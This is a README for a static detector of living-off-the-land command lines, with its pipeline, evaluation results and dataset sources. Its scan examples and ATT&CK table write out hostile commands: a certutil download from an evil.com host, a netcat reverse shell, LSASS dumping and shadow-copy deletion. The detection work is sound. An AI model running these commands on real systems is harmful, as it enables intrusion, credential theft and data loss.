

<div align="center">

# LotLDetector

### Robust Hybrid Detection Framework for Living-off-the-Land Attacks Across Windows and Linux Command Lines

[](https://www.python.org/)
[]()
[]()
[]()
[](LICENSE)

<p align="center">
  A lightweight static telemetry engine designed to detect stealthy APT tradecraft and ransomware execution chains without process execution.
</p>

[System Workflow](#system-workflow) •
[Key Features](#key-features) •
[Evaluation Results](#evaluation-results) •
[Quick Start](#quick-start) •
[Dataset Sources](#dataset-sources) •
[MITRE ATT&CK](#mitre-attck-coverage) •
[Project Structure](#project-structure) •
[References](#references)

---

</div>

## Overview

LotLDetector is a security framework designed to detect Living-off-the-Land techniques across Windows and Linux command lines. By abusing trusted, cryptographically signed administrative utilities such as certutil, wmic, netsh, powershell, or standard POSIX binaries, adversaries execute malicious actions while blending into legitimate enterprise administration traffic.

LotLDetector integrates rule-based semantic feature engineering, dual-view de-obfuscation, platform-calibrated Random Forest classification, and Sentence-BLEU lexical matching against authoritative threat corpora.

> [!NOTE]
> Safe Static Inspection: LotLDetector operates strictly as a static string analyzer. It never executes or spawns child processes, making it safe for real-time EDR sensors, SIEM ingestion pipelines, and forensic triage workflows.

---

## System Workflow

The detection engine processes incoming command lines through a multi-stage hybrid pipeline:



### Execution Steps:
1. **Input and Normalization:** Unrolls command-line escape characters such as Windows caret, strips redundant whitespace, categorizes IPv4 addresses into private or public tiers, and tokenizes command components.
2. **Feature Extraction:** Matches tokens against binary registries, sensitive system paths, and behavioral regular expressions to produce a semantic label vector.
3. **Dual-Track Evaluation:**
   - Statistical track: Transforms labels via CountVectorizer and computes malicious posterior probability using a 100-tree balanced Random Forest.
   - Lexical track: Computes runtime Sentence-BLEU similarity against historical attack corpora.
4. **Decision Logic:** Emits an actionable verdict based on platform-calibrated risk thresholds: threshold 0.35 for Windows and threshold 0.60 for Linux.

---

## Key Features

- Dual-Engine Hybrid Classifier: Bridges statistical generalizability with precision signature matching against LOLBAS and GTFOBins.
- Platform-Calibrated Decision Boundaries:
  - Windows threshold 0.35: Classifies a command as BAD when its Random Forest score reaches 0.35.
  - Linux threshold 0.60: Uses a higher Random Forest cutoff; matching the BLEU corpus can also produce BAD on either platform.
- De-Obfuscation and Multi-View Normalization: Transparently unwraps caret-obfuscated commands and classifies network destinations without external dependencies.
- Tri-State Verdict Telemetry: Eliminates forced-choice errors on sparse command lines by safely assigning `NEUTRAL` for secondary process-tree analytics.
- Traceability: Exports the fitted numeric training matrix to the features directory for model explainability and compliance auditing.

---

## Evaluation Results

Each platform dataset is split directly into 90% train and 10% test using label stratification and seed 42. There is no intermediate validation split. The results below use the models retrained on this split:

### Windows Test Holdout

213 test samples: 164 Good, 49 Bad

```text
              precision    recall  f1-score   support

Good/Neutral     0.9938    0.9817    0.9877       164
         Bad     0.9412    0.9796    0.9600        49

    accuracy                         0.9812       213
   macro avg     0.9675    0.9806    0.9739       213
weighted avg     0.9817    0.9812    0.9814       213

Confusion Matrix: TN=161 | FP=3 | FN=1 | TP=48
NEUTRAL Count   : 53 (0 Bad samples routed to Neutral)
```

### Linux Test Holdout

750 test samples: 683 Good, 67 Bad

```text
              precision    recall  f1-score   support

Good/Neutral     0.9794    0.9736    0.9765       683
         Bad     0.7465    0.7910    0.7681        67

    accuracy                         0.9573       750
   macro avg     0.8629    0.8823    0.8723       750
weighted avg     0.9586    0.9573    0.9579       750

Confusion Matrix: TN=665 | FP=18 | FN=14 | TP=53
NEUTRAL Count   : 60 (7 Bad samples routed to Neutral)
```

---

## Quick Start

### 1. Installation

Prerequisites: Python 3.11+

```powershell
cd D:\LotLDtector
python -m venv .venv
.\.venv\Scripts\Activate.ps1
pip install -r requirements.txt
```

### 2. Command-Line Detection

- Interactive Console Mode:
  ```powershell
  python scripts/scan.py --platform windows
  ```
  ```text
  LotLDetector [windows] - type exit to quit
  >>> certutil.exe -urlcache -split -f http://evil.com/payload.exe payload.exe
  Extracted features: COMMAND_CERTUTIL.EXE KEYWORD_dash_urlcache KEYWORD_dash_f KEYWORD_http certutil_downloader LOOKS_LIKE_KNOWN_LOL
  Prediction: BAD

  >>> dir C:\Users
  Extracted features: PATH_C:\USERS
  Prediction: NEUTRAL

  >>> exit
  ```

- Ad-Hoc Single Command Scan:
  ```powershell
  python scripts/scan.py --platform windows "wmic process call create 'cmd.exe /c whoami'"
  python scripts/scan.py --platform linux "nc -e /bin/sh 10.10.10.10 4444"
  ```

- Batch File Inspection:
  ```powershell
  python scripts/scan.py --platform windows --file telemetry_commands.txt
  ```

### 3. Model Training and Evaluation

```powershell
# Retrain model
python scripts/train.py --platform windows
python scripts/train.py --platform linux

# Evaluate on test holdout
python scripts/evaluate.py --platform windows
python scripts/evaluate.py --platform linux
```

---

## Dataset Sources

The ground-truth datasets and reference corpora were consolidated from industry threat repositories, security advisories, and enterprise telemetry:

| Source | Platform | Target Role | Reference Link | Description |
|---|:---:|:---:|---|---|
| LOLBAS Project | Windows | Malicious | https://lolbas-project.github.io | Living-off-the-land binaries, scripts, and libraries used for execution and download |
| Atomic Red Team | Windows | Malicious | https://github.com/redcanaryco/atomic-red-team | Open-source adversary emulation tests mapped to MITRE ATT&CK techniques |
| Volt Typhoon Advisory | Windows | Malicious | https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a | Joint advisory on port proxying, LSASS memory dumping, and recovery inhibition |
| Microsoft Learn System Commands | Windows | Benign | https://learn.microsoft.com/en-us/windows-server/administration/windows-commands | Baseline administrative, maintenance, and network troubleshooting commands |
| PSReadLine Telemetry | Windows | Benign | https://github.com/PowerShell/PSReadLine | Command history from developer and administrator console sessions |
| Enterprise EDR Telemetry | Windows | Benign | Enterprise Endpoints | Baseline endpoint activity recording routine services and update tasks |
| Production Telemetry | Linux | Benign | https://github.com/adobe/libLOL | Cloud server command logs sanitized with open-source stringlifier utility |
| GTFOBins Project | Linux | Malicious | https://gtfobins.github.io | Curated repository of Unix binaries exploitable to bypass local security restrictions |
| Container Escape Primitives | Linux | Malicious | https://attack.mitre.org/techniques/T1611 | Breakout techniques via nsenter, chroot, and encrypted reverse shells |
| cmd_known.corpus | Windows | BLEU Reference | Local Corpus | 500 validated LOLBAS command strings for lexical similarity matching |
| bash_known.corpus | Linux | BLEU Reference | Local Corpus | 1,499 validated GTFOBins command strings for lexical similarity matching |

---

## MITRE ATT&CK Coverage

LotLDetector recognizes techniques across the MITRE ATT&CK Enterprise Matrix:

| MITRE ID | Technique Name | Exploited Utility | Representative Sample |
|---|---|---|---|
| T1047 | Windows Management Instrumentation | wmic.exe | `wmic process call create "cmd.exe /c whoami"` |
| T1090.001 | Internal Port Forwarding | netsh.exe | `netsh interface portproxy add v4tov4 listenport=50100 connectaddress=192.168.1.50 connectport=443` |
| T1105 | Ingress Tool Transfer | certutil.exe, bitsadmin.exe | `certutil.exe -urlcache -split -f http://evil.com/p.exe` |
| T1059.001 | Command and Scripting: PowerShell | powershell.exe | `powershell.exe -NoP -NonI -W Hidden -Enc SQBFAFgA...` |
| T1059.003 | Windows Command Shell | conhost.exe, cmd.exe | `conhost.exe --headless payload.bat` |
| T1059.005 | Visual Basic / JScript | cscript.exe, wscript.exe | `cscript.exe //E:jscript C:\users\public\script.js` |
| T1003.001 | OS Credential Dumping: LSASS Memory | rundll32.exe | `rundll32.exe comsvcs.dll, MiniDump <PID> lsass.dmp full` |
| T1490 | Inhibit System Recovery | vssadmin.exe, bcdedit.exe | `vssadmin delete shadows /all /quiet` |
| T1202 | Indirect Command Execution | bash.exe | `bash.exe -c calc.exe` |
| T1543.003 | Windows Service Execution | sc.exe | `sc create evil_svc binPath= C:\temp\nc.exe` |
| T1611 | Escape to Host: Container Escape | nsenter, chroot | `nsenter --target 1 --mount --uts --ipc --net --pid /bin/bash` |

---

## Project Structure

```text
LotLDetector/
├── ARCHITECTURE.md                 # Technical design specification and architectural documentation
├── README.md                       # Project overview and operational guide
├── requirements.txt                # Python dependencies
│
├── data/
│   ├── raw/                        # Ground-truth labelled CSV datasets
│   │   ├── windows.csv             # 2,121 Windows samples
│   │   └── linux.csv               # 7,495 Linux samples
│   ├── external/                   # Reference corpora for lexical matching
│   │   ├── cmd_known.corpus        # 500 Windows reference commands
│   │   └── bash_known.corpus       # 1,499 Linux reference commands
│   └── features/                   # Exported numerical training matrices
│       ├── windows/train.csv       # Windows feature matrix
│       └── linux/train.csv         # Linux feature matrix
│
├── models/                         # Serialized model artifacts
│   ├── windows/
│   │   ├── rf_classifier.joblib    # Random Forest model
│   │   ├── vectorizer.joblib       # CountVectorizer vocabulary mapping
│   │   └── feature_config.json     # Configuration hashes and threshold metadata
│   └── linux/
│       ├── rf_classifier.joblib    # Random Forest model
│       ├── vectorizer.joblib       # CountVectorizer vocabulary mapping
│       └── feature_config.json     # Configuration hashes and threshold metadata
│
├── scripts/                        # Primary operational CLI tools
│   ├── scan.py                     # Command-line scanner
│   ├── train.py                    # Model training pipeline
│   └── evaluate.py                 # Holdout test set evaluation script
│
└── src/                            # Framework library
    ├── config.py                   # Hyperparameters, paths, and calibrated thresholds
    ├── data.py                     # Ingestion, stratified splitting, and sparse matrix export
    ├── evaluation.py               # Classification reporting and confusion matrix routines
    ├── features/                   # Feature extraction modules
    │   ├── label_generators.py     # Regex and keyword label extractors
    │   ├── pipeline.py             # Feature pipeline orchestrator
    │   ├── rules_constants.py      # Binary dictionaries, path constants, and rules
    │   └── similarity.py           # Sentence-BLEU n-gram similarity engine
    ├── models/                     # Classification abstractions
    │   ├── predictor.py            # Inference engine and decision logic
    │   └── trainer.py              # Random Forest training engine
    └── preprocessing/              # Text normalization
        ├── normalizer.py           # Caret unmasking and IPv4 extraction
        └── tokenizer.py            # Windows CMD and POSIX tokenizers
```

---

## References

1. LOLBAS Project: https://lolbas-project.github.io
2. GTFOBins Project: https://gtfobins.github.io
3. CISA Advisory AA24-038A: https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a
4. Atomic Red Team: https://github.com/redcanaryco/atomic-red-team
5. Adobe libLOL (Foundational Research): Machine Learning and Feature Engineering for Detecting Living off the Land Attacks, IoTBDS, 2022.

---

<div align="center">
  <sub>LotLDetector is an open-source cybersecurity project developed for enterprise threat detection and academic research. Licensed under Apache 2.0.</sub>
</div>
